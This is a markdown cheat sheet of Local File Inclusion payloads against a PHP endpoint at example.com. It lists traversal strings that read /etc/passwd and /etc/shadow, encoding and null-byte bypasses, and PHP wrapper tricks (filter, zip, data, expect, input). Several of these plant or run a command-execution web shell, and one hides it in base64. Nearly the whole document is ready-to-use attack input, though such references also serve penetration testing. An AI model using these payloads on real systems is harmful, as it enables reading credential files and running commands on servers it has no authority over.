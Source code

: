## Local File Inclusion (LFI)

## Introduction
Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

2. URL encoding
```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding
```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)
```
http://example.com/index.php?page=../../../etc/passwd%00
```

6. From an existent folder
```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
```

8. Using PHP Wrappers: filter
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip
```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data
```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect
```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input
```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...

<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## References
* [Aptive](https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/)